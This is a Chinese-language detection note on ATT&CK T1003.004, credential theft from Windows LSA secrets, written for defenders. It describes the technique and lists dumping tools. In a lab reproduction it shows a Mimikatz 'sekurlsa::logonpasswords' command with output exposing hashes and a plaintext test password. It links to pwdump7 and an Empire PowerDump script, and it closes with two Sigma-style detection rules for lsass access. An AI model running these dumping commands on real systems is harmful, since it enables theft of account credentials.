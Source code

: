 # T1003-004-windows-基于LSA凭证获取

## 来自ATT&CK的描述

具有SYSTEM访问主机权限的对手可能会尝试访问本地安全机构（LSA）机密，其中可能包含各种不同的凭据材料，例如服务帐户的凭据。LSA机密存储在注册表中HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets。LSA机密也可以从内存中转储。

Reg可用于从注册表中提取。Mimikatz可用于从内存中提取秘密。

### LSA（Local Security Authority）

通过system权限访问主机lsass.exe进程，可以从中读取本地登录和域登录的明文密码。当服务在本地或域用户的上下文中运行时，其密码存储在注册表中。如果启用了自动登录，则此信息也将存储在注册表中。

本地安全机构子系统服务（LSASS）处理Windows主机中安全策略的实施。在从2000到Server 2008的Windows环境中，LSASS进程的内存以明文形式存储密码以支持WDigest和SSP身份验证。因此，Mimikatz等工具可以轻松检索密码。自Windows 8.1和Windows Server 2012的Microsoft为了增强系统的安全性，进一步阻止了LSASS以明文形式存储密码。

## 测试案例

你可以使用许多工具进行检索读取SAM文件：

- pwdump.exe
- Mimikatz
- gsecdump
- ······

或者，可以使用reg.exe从注册表中提取文件，并使用Creddump7收集凭据。

注意：由机制问题提取的密码是UTF-16编码的，这意味着它们以明文形式返回.Windows 10增加了对缓解中描述的LSA秘密的保护

## 检测日志

sysmon日志

windows security日志

## 测试复现

### 攻击方法：从lsass.exe程序内存中读取密码(administrator)

```dos
C:\mimikatz_trunk\x64>mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 246475 (00000000:0003c2cb)
Session           : RemoteInteractive from 2
User Name         : 1.205
Domain            : 1205-PC
Logon Server      : 1205-PC
Logon Time        : 2019/7/10 16:12:02
SID               : S-1-5-21-4083414316-2806399370-2225847366-1000
        msv :
         [00000003] Primary
         * Username : 1.205
         * Domain   : 1205-PC
         * LM       : 6ce1432e9b83da8da8eed815a197bd87
         * NTLM     : 6136ba14352c8a09405bb14912797793
         * SHA1     : b1ab7381d8e9799e407f1d4cb39e33b5d3e54f72
        tspkg :
         * Username : 1.205
         * Domain   : 1205-PC
         * Password : 1qazcde3!@#
        wdigest :
         * Username : 1.205
         * Domain   : 1205-PC
         * Password : 1qazcde3!@#
        kerberos :
         * Username : 1.205
         * Domain   : 1205-PC
         * Password : 1qazcde3!@
        ssp :
        credman :
```

## 测试留痕

暂无

## 检测规则/思路

### sysmon日志

```yml
title: T1003-win-基于LSA-mimikatz凭证获取
description: win7 模拟测试结果
status: experimental
author: 12306Bro
references: https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump
tags: ATT&CK T1003-004
logsource:
​    product: windows
​    service: sysmon
detection:
​    selection:
​        EventID: 10
​        TargetImage: 'C:\Windows\system32\lsass.exe'
​    condition: selection
level: high
```

### windows security日志

```yml
title: T1003-win-基于LSA-mimikatz凭证获取
description: win7 模拟测试结果
status: experimental
author: 12306Bro
references: https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump
tags: ATT&CK T1003-004
logsource:
​    product: windows
​    service: security
detection:
​    selection:
​        EventID: 4673
​        LoginIO: 0x3E7
​        Server: 'NT Local Security Authority / Authentication Service'
​        ServiceName: 'LsaRegisterLogonProcess()'
​        Processname: 'C:\Windows\System32\lsass.exe'
​        Privilege: SeTcbPrivilege
​    condition: selection
level: high
```

## 参考推荐

MITRE-ATT&CK-T1003-004

<https://attack.mitre.org/techniques/T1003/004>

pwdump7

<http://passwords.openwall.net/b/pwdump/pwdump7.zip>

powershell

<https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1>

mimikatz wiki

<https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump>

关于更多转储明文密码你可以参考

<https://pentestlab.blog/2018/04/04/dumping-clear-text-credentials/>
